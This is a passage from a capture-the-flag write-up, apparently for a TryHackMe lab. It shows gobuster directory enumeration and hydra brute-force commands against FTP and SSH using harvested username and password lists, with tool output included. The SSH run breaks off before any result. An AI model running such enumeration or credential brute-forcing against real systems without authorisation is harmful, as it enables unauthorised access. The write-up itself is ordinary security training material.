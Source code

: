 ```
User-Agent: *
Disallow : /--------

I told ------- we should hide our things deep.
```
From this we can possibly draw two conclusions, firstly, we have a username and secondly, we have a hidden directory. Lets look at the website as a whole, and in the meantime set off gobuster again on the new folder. No point in not checking, especially with the comment "hide our things deep"
```
gobuster dir -u 10.10.75.241 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
## website 
Lets quickly start at the front door and check out the HTTP website/page. One thing I have learnt over these last three months of CTF and learning pentesting is that you need to check everything!!
It looks like it is a default Apache Ubuntu holding page.  I read through it but find nothing that jumps out directly.
So what about the /-------?
This gives us two additional files:
```
Index of /-------
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[TXT]	-------.txt	2020-07-05 21:45 	760 	 
[ ]	-------	2020-07-05 21:45 	78 	 
Apache/2.4.18 (Ubuntu) Server at 10.10.75.241 Port 80
```
The userid file contains 13 user names
```
usernames
```
The credentials file contains a long list of approximately 100 passwords.
```
passwords
```
While we continue looking, I saved these files and used hydra to try and brute force the FTP and or SSH

## hydra
Using both files for user and passwords we will attempt to brute force access.
FTP first.
```
~/CTF/tryhackme/tartarus$ hydra -L users.txt -P passwords.txt ftp://10.10.75.241
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-15 08:19:14
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1313 login tries (l:13/p:101), ~83 tries per task
[DATA] attacking ftp://10.10.75.241:21/
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-15 08:19:31
```
Nothing here that matches. Now for SSH.
```
~/CTF/tryhackme/tartarus$ hydra -L users.txt -P passwords.txt 10.10.75.241 -t 4 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-15 08:03:40
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1313 login tries (l:13/p:101), ~329 tries per task
```